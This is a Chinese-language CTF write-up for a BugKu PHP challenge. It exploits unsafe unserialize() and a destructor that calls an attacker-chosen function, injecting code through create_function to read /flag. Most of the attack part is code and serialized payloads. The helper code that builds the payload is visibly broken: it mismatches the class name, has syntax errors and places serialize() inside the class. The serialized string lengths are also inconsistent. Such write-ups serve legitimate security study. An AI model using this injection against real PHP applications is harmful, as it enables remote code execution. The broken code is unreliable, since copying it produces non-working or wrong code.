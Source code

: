### Create_function() RCE

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/6810303458cb8da5c8d2bb2b.png)

打开网页给出了源码

```php
<?php

if (isset($_GET['p'])) {
    $p = unserialize($_GET['p']);
}
show_source("index.php");

class Noteasy
{
    private $a;
    private $b;

    // 构造函数，会在类的对象在创建时自动调用
    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
        $this->check($a.$b);
        eval($a.$b);
    }


    // 析构函数，在对象销毁时自动调用
    public function __destruct()
    {
        $a = (string)$this->a;
        $b = (string)$this->b;
        $this->check($a.$b);
        $a("", $b);
    }


    private function check($str)
    {
        if (preg_match_all("(ls|find|cat|grep|head|tail|echo)", $str) > 0) die("You are a hacker, get out");
    }


    public function setAB($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
```

首先，反序列化不调用构造函数

因为反序列化时通过读取对象的字节流来恢复对象的状态，而不是通过调用对象的构造函数来创建对象

所以直接来看析构函数

```php
public function __destruct()
{
    // 将属性 $a 转换为字符串
    $a = (string)$this->a;
    
    // 将属性 $b 转换为字符串
    $b = (string)$this->b;
    
    // 调用 check 方法，传入 $a 和 $b 连接后的字符串
    $this->check($a.$b);
    
    // 重点代码
    // 将 $a 作为函数调用，第一个参数为空字符串，第二个参数为 $b
    $a("", $b);
}
```

但是空的的函数不能执行，所以我们要构造一个

这里要利用 `Create_function()` 函数

```php
$func = create_function('$a, $b', 'return $a + $b;');
echo $func(2, 3); // 输出 5
```

`create_function` 实际上会在内部执行以下操作：

1. 生成一个唯一的函数名(如 `__lambda_func`)
2. 用给定的参数和代码体创建一个新函数
3. 返回这个函数名以便后续调用

构造序列化代码

```php
<?php
 
Class Noteast{
 
Private $a;
 
Private $b;
 
Public function_construct($a,$b){
 
$this->a=$a;
 
$this->b=$b;
 
}
 
$object=new Noteasy("create_function",';}highlight_file("/flag");/*;');
 
Echo serialize($object);
 
}
```

这样相当于

```php
create_function('', ';}highlight_file("/flag");/*;')
```

实际创建的代码为

```php
function __lambda_func() {
    ;}highlight_file("/flag");/*;
}
```

得到

```php
O:7:"Noteasy":2:{s:10:"Noteasya";s:15:"create_function";s:10:"Noteasyb";s:21:';}highlight_file("/flag");/*;";}
```

需要注意因为是 `private` 属性，所以不能直接使用

应该为 `\00类名\00`

```php
O:7:"Noteasy":2:{s:10:"\00Noteasy\00a";s:15:"create_function";s:10:"\00Noteasy\00b";s:29:";}highlight_file("/flag");/*";}
```

![](https://pic1.imgdb.cn/item/6810301658cb8da5c8d2bb1a.png)